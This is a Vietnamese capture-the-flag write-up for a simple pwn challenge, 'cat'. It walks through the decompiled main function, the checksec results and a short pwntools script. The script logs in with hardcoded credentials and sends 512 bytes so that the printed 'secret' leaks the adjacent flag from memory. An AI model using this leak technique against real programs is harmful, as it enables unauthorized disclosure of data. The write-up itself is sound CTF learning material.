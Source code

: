  **Writeup Cat from Pwn** 
 
 **#1 Tìm lỗi**
 
     Em sẽ dùng lệnh 'file' để tìm thông tin của file và có kết quả như sau
     ![image](https://user-images.githubusercontent.com/116651808/212807726-3f02e914-3565-49b9-8246-2cc62cf8145a.png)
     Em sẽ được file được viết là file ELF 64bit nên em mở file cat bằng ida 64 sẽ thấy soure của hàm main như sau:
   int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+Ch] [rbp-4h]
  int v5; // [rsp+Ch] [rbp-4h]

  init(argc, argv, envp);
  read_flag();
  printf("Username: ");
  v4 = read(0, username, 0x20uLL);
  if ( username[v4 - 1] == 10 )
    username[v4 - 1] = 0;
  printf("Password: ");
  v5 = read(0, password, 0x20uLL);
  if ( password[v5 - 1] == 10 )
    password[v5 - 1] = 0;
  if ( !strcmp(username, "KCSC_4dm1n1str4t0r") && !strcmp(password, passwd) )
  {
    puts("Logged in!");
    printf("Your secret: ");
    read(0, secret, 0x200uLL);
    printf("Saving secret \"%s\"...\n", secret);
    puts("Done! Exiting...");
  }
  else
  {
    puts("Unauthorized access is forbidden!");
  }
  return 0;
}
    Đọc hàm main em thấy chương trình sẽ tiến hành thực hiện hàm read_flag()(Kiểm tra hàm này thì thấy đã lưu giá trị flag vào biến flag), sau đó tiếp tục cho người dùng
    nhập username và password rồi đem đi so sánh với giá trị đã có sẵn. Nếu đúng thì tiếp tục cho phép nhập vào biến secret và in biến secret rồi kết thúc chương trình.
    Đến đây em nghĩ đến nhập buffer từ biến secret đến biến flag. Em dùng lệnh 'checksec' trong gdb để kiểm tra xem có buffer được không.
    ![image](https://user-images.githubusercontent.com/116651808/212809077-1438d894-e51b-4018-b5fe-4cf951058cc3.png)
    Em thấy được Canary đang disabled nên sẽ tận dụng lỗi buffer over flow được
   
   
   
 **2. Ý tưởng**
    Sau khi đọc source thì em sẽ nhập KCSC_4dm1n1str4t0r cho username và wh3r3_1s_th3_fl4g cho password.
    Dùng gdb thì thấy được khoảng cách từ biến flag đến secret là 512 nên sẽ nhập 512 ký tự cho biến secret
    
    
  **3. Viết script**
  
    from pwn import *
    r = process("./cat")

    r.recvuntil("Username: ")
    r.sendline("KCSC_4dm1n1str4t0r")
    r.recvuntil("Password: ")
    r.sendline("wh3r3_1s_th3_fl4g")
    r.sendline("a"*512)
    r.interactive()
    
 **4. Lấy flag**
   ![image](https://user-images.githubusercontent.com/116651808/212811067-c7f63163-7b62-4d60-a8fb-a65951c3a539.png)
    flag: KCSC{Th1s_1s_f4k3_fl4g} (Chạy trên local nên đây là flag em tự tạo).
